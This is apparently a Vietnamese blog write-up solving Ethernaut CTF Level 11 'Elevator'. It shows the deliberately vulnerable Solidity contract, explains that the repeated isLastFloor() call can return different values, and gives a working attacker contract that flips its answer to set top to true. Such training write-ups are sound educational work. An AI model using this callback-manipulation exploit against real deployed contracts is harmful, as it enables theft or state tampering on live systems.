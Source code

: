 ```yaml
---
title: "[Ethernaut CTF] Level 11: Elevator"
date: 2023-01-20 14:09:00 +0800
categories: [Blockchain, Ethereum]
tags: [Blockchain, Solidity, Ethereum, CTF]
published: true
image:
 path: https://ethernaut.zeppelin.solutions/imgs/BigLevel11.svg
---
```

# Level 11: Elevator
##  Difficulty: ★★☆☆☆

## Given contract
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```
## Target
Tìm cách để lên được tầng cuối (hay nói cách khác là tìm cách để set biến ``top``= true)

## Phân tích
- Ở đây, chúng ta thấy hàm ``isLastFloor()`` được gọi hai lần => ta chỉ cần override lại hàm ``isLastFloor()``, gọi hàm lần thứ 1 để set top thành false, lần 2 để set thành true => pass
```solidity
 if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
 
```
## Solution
- Compile và deploy contract này trên remix,sau đó gọi hàm gotoTop với address là contract address của level

```solidity
// SPDX-License-Identifier: MIT
pragma solidity >=0.6.0 <0.9.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}

interface IElevator {
    function goTo(uint _floor) external;
}

contract MyBuilding is Building {
    bool public last = true;

    function isLastFloor(uint) override external returns (bool) {
        last = !last;
        return last;
    }

    function goToTop(address _elevatorAddr) public {
        IElevator(_elevatorAddr).goTo(10);
    }
}
```

- Check lại biến top
```javascript
await contract.top()
true
```
**Submit** -> Done



